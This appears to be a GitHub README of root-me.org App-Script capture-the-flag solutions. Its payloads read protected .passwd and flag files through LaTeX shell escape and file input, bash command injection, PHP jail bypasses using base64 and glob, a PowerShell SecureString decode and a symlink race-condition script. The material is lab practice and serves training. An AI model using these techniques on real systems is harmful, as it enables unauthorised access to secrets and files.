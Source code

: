 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```
### BASH - Race condition
[BASH - Race condition](https://www.root-me.org/fr/Challenges/App-Script/Bash-race-condition)

### Payload

First create a file in /tmp folder :

```bash
vi /tmp/pwned.sh
```
Then give it the rights :
```bash
chmod u+x /tmp/pwned.sh
```
 
Then copy the following script in the file :
```bash
#!/bin/bash

DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then
            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
                kill -SIGSTOP $1
                echo -n "data" > $FOUND_DIRS/pwned_file
                kill -SIGCONT $1
                ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                while : ; do
                    kill -SIGSTOP $1
                    unlink $FOUND_DIRS/pwned_file
                    echo -n "data" > $FOUND_DIRS/pwned_file
                    ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    kill -SIGCONT $1
                    [[ -e "$FOUND_DIRS" ]] || break
                done
                break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
```

This scipts do a infinite loop and monitor the directories created by the challenge script, when he found a directory in /tmp/$PPID/$PID that matchs he creates a symlink to $HOME/.passwd until the directory is deleted
in order to do a race condition exploit on this command of the challenge script :
```bash 
find "$temp_dir" -type f -size 4c -exec cat {} + 
```

As stated here [Race condition with exec](https://www.gnu.org/software/findutils/manual/html_node/find_html/Race-Conditions-with-_002dexec.html)

Then lauch it like this :
```bash
~/wrapper & /tmp/pwned.sh $!
```

Where $! is the pid of the processus ~/wrapper
At the moment, the race is not always won by the script so relaunch it until you have a valid flag

